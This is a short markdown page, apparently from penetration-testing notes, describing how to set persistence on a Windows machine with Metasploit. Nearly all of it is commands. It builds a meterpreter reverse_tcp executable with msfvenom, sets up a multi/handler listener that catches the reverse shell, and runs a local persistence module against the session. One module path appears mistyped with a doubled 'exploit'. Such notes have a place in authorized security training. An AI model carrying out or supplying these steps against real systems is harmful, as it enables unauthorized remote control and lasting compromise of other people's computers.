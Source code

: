```yaml
---
description: Use metasploit to set persistance
---
```


# Persistence (metasploit)

{% code overflow="wrap" %}
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe
```
{% endcode %}

Transfer payload to target

```sh
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <IP>

set LPORT <PORT>

run

#When connected
background
```

On the machine start the shell.exe

```sh
#After background
use exploit/exploit/local/persistence

set session <ID>

run
```

And TADA!
